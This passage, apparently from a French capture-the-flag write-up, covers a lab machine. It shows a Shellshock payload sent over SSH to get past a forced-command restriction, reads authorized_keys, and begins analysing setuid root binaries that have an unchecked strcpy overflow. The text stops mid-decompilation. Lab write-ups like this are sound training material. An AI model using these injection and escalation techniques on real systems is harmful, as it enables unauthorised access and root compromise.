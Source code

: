 ```shellsession
$ ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i noob noob@192.168.56.88 '() { :;}; echo MALICIOUS CODE'
MALICIOUS CODE
TRY HARDER LOL!
```

Et la config du CTF est bien celle décrite :

```shellsession
$ ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i noob noob@192.168.56.88 '() { :;}; cat .ssh/authorized_keys'
command="echo TRY HARDER LOL!" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwi2G/kLMyjm/rrcQymKVqy4EgUyJ+3Oyv7D5QV73IWECguqrINI+OuY+zIV49ykebBYR15HkBYi/9GYZmHRD5CHq9I+zCLHv/9Kdf9Ae+HQIaF/X/3PC0lIx6XLmgIY66MwuMNmOvK7U8rERPUJxSmLKWvaSAP9/LXVOHfcrCZyyCc+ir6kxsKHzojM0EResF2RgKfbbZ2MFqr6YSO9+ohdZBgGVncc1ngtW0b7mKf1u+RTnP7XeWxOkD2nHpghvKs8wwXNw6vE12lNjzqjPDTb4yYVph8zHKPYZst6PT6qeLArJ7lKwX540FEp2q9Ji2xUTXVLBCYXiKZ0k7Ru69 noob@Tr0ll2
```

De la même façon je peux rajouter une entrée au fichier `authorized_keys` qui n'a pas le préfixe `command=` et me connecter normalement. 

## Gonna pwnnnnnnnnnnnnnnnnnnnnnnnnnnn

A la racine du système on trouve un dossier `nothing_to_see_here` qui contient trois binaires setuid ayant le même nom :

```
/nothing_to_see_here/choose_wisely/door1:
total 8
-rwsr-xr-x 1 root root 7271 Oct  4  2014 r00t

/nothing_to_see_here/choose_wisely/door2:
total 8
-rwsr-xr-x 1 root root 7273 Oct  5  2014 r00t

/nothing_to_see_here/choose_wisely/door3:
total 12
-rwsr-xr-x 1 root root 8401 Oct  5  2014 r00t
```

Tous sont des programmes de petite taille. `Cutter` décompile le premier sous cette forme :

```c
#include <stdint.h>
 
int32_t dbg_main (void) {
    int32_t argc;
    char ** argv;
    const char * src;
    char [256] buf;
    /* int main(int argc,char ** argv); */
    if (argc == 1) {
        eax = argv;
        edx = *(eax);
        eax = "Usage: %s input\n";
        src = edx;
        printf (eax);
        exit (0);
    }
    eax = argv;
    eax += 4;
    eax = *(eax);
    eax = &buf;
    strcpy (eax, *(eax));
    eax = 0x8048591;
    edx = &buf;
    src = edx;
```